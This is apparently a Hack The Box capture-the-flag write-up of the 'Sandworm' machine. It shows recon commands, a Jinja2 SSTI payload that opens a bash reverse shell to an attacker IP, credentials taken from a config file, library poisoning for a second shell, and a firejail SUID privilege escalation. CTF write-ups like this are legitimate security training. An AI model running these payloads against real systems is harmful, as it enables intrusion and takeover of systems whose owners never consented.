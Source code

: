 i add the machine to the /etc/hosts:
	
	sudo su
	echo "10.10.11.218	ssa.htb" >> /etc/hosts

So now we can scan the machine with a rustscan:
	
	rustscan -a ssa.htb	
output:
	
	PORTS	PROTOCOL
	22		ssh
	80		http
	443		https

I take a look at the web server on port 80:
is a server of an agency for telecomunication that showcase the use of pgp keys.
PGP (PRETTY GOOD PRIVACY) is a protocol for encryption e authority verification on the web such as
the darkweb.
we can see what directory we have (we need -k for not veryfing certificate):
	
	feroxbuster -u http://ssa.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k
output:
	
	200      GET       23l       44w      668c https://ssa.htb/static/scripts.js
	302      GET        5l       22w      225c https://ssa.htb/view => https://ssa.htb/login?next=%2Fview
	200      GET        6l      374w    21258c https://ssa.htb/static/popper.min.js
	200      GET        1l       10w    41992c https://ssa.htb/static/favicon.ico
	200      GET        7l     1031w    78130c https://ssa.htb/static/bootstrap.bundle.min.js
	200      GET     1346l     6662w    63667c https://ssa.htb/static/bootstrap-icons.css
	200      GET        3l     1297w    89477c https://ssa.htb/static/jquery.min.js
	302      GET        5l       22w      227c https://ssa.htb/admin => https://ssa.htb/login?next=%2Fadmin
	200      GET      304l     1591w   115308c https://ssa.htb/static/eagl2.png
	200      GET       77l      554w     5584c https://ssa.htb/about
	200      GET       69l      261w     3543c https://ssa.htb/contact
	200      GET      155l      691w     9043c https://ssa.htb/guide/verify
	200      GET      155l      691w     9043c https://ssa.htb/guide/encrypt
	200      GET       54l       61w     3187c https://ssa.htb/pgp
	200      GET      155l      691w     9043c https://ssa.htb/guide
	200      GET     2019l    10020w    95610c https://ssa.htb/static/bootstrap-icons2.css
	200      GET    12292l    23040w   222220c https://ssa.htb/static/styles.css
	200      GET       83l      249w     4392c https://ssa.htb/login
	200      GET    10161l    60431w  4580604c https://ssa.htb/static/circleLogo2.png
	200      GET      124l      634w     8161c https://ssa.htb/
	302      GET        5l       22w      229c https://ssa.htb/logout => https://ssa.htb/login?next=%2Flogout
	[REDACTED]

in the directory we found there is an aerea where we can verify a message sent by us signed via PGP
so i send a message signed on this site:
	
	http://www.2pih.com/pgp.html
i generated the keys here:
	
	https://pgpkeygen.com/

when the key is veryfied the server print a popup with the information of our key...
so i tought that i could maybe inject code inside the popup.
The server is made in python flask as we reed on the bottom of the page, so maybe
we can try a ssti jinja2.
In the description field i tried a classic payload:
	
	{{7*7}}
output:
	
	{{49}}
PERFECT, the application is vulnerable to ssti

so i go on by crafting the payload and start a listener on the background (i use pwncat):
	
	python3 -m pwncat  
	connect -lp 4444
i tried this payload and worked for me:
	
	{{config.__class__.__init__.__globals__['os'].popen('bash -c "/bin/bash -i >& /dev/tcp/10.10.14.49/4444 0>&1"').read()}}
I GOT A SHELL.
is actually a terrible shell, but still RCE.
i "upgrade" it:
	
	/bin/bash
and keep on with the enumeration, i have very little commands to run.
I start going around inside filesystem and i found something odd inside a directory:
	
	cd /home/atlas/.config/httpie/sessions/localhost_5000/admin.json
inside it there is what we need:
	
	username: silentobserver
	password: [REDACTED]
so now we can log inside the actual machine and not the sandbox:
	
	python3 -m pwncat
	connect ssh://silentobserver:[REDACTED]@ssa.htb:22
WE ARE IN AS USER!
so we can upload linpeas with pwncat:
	
	Ctrl + d
	Upload Pentest/linepeas.sh /home/silentobserver/linpeas.sh
	Ctrl + d
	bash /tmp/linpeas.sh

We found a strange process runned by root as atlas user:
	
	./tipnet
This process is a rust script that permit u to do an upstream.
But the odd part is the library that it loads are writable for us:
in particular we can poison the lib.rs library to insert our rust revshell:
	
	 extern crate chrono;

	use std::fs::OpenOptions;
	use std::io::Write;
	use chrono::prelude::*;
	use std::process::Command;

	[REDACTED]

	    if output.status.success() {
	        let stdout = String::from_utf8_lossy(&output.stdout);
	        let stderr = String::from_utf8_lossy(&output.stderr);

	        println!("standar output: {}", stdout);
	        println!("error output: {}", stderr);
	    } else {
	        let stderr = String::from_utf8_lossy(&output.stderr);
	        eprintln!("Error: {}", stderr);
	    }

	    let now = Local::now();
	    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
	    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

	    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
	        Ok(file) => file,
	        Err(e) => {
	            println!("Error opening log file: {}", e);
	            return;
	        }
	    };

	    if let Err(e) = file.write_all(log_message.as_bytes()) {
	        println!("Error writing to log file: {}", e);
	    }
	}
so i upload the revshell via pwncat:
	
	Ctrl + d
	upload Pentest/lib.rs lib.rs
	Ctrl + d
and now we set up our listener:
	
	python3 -m pwncat
	connect -lp 4444
WE GOT A SHELL as atlas;
so now we can keep on enumerating with this next user:
	
	bash /tmp/linpeas.sh
linpeas return something interesting: the firejail binary as the SUID bit set on.
So i search online for SUID exploit for firejail and found this:
	
	https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25
so i upload the python script on the machine make it executable with:
	
	chmod +x exploit.py
and execute it:
	
	python3 exploit.py
output:
	
	You can now run 'firejail --join=310279' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
so we need to create another shell session with the previuos exploit
Once we got the second shell we can launch the command above:
	
	firejail --join=310279
	su -
(we don't actually need the sudo unless u type sudo -u root -)
output:
	
	#root@sandworm:~#

WE ARE NOW ROOT and we can submit our flag

i rooted this machine with the help of my friend AleHelp (https://github.com/AleHelp) on github